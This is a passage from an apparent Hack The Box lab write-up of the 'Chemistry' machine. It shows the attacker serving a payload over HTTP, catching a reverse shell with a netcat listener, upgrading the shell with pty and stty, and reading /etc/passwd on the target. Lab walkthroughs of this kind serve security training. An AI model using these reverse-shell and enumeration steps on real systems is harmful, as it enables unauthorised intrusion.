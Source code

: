 Then we `triggered` the `payload` by clicking on `View` and got a `callback`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Chemistry/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.160.79 - - [20/Oct/2024 11:34:47] "GET /x HTTP/1.1" 200 -
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.160.79] 56492
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ 
```

```c
app@chemistry:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
app@chemistry:~$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

app@chemistry:~$ 
app@chemistry:~$ export XTERM=xterm
app@chemistry:~$
```

## Enumeration

Since we got a `reverse shell` as the user `app` we first checked our `group memberships`.

```c
app@chemistry:~$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```

Then we had a look at `/etc/passwd` to see what other users are available on the box.

```c
app@chemistry:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```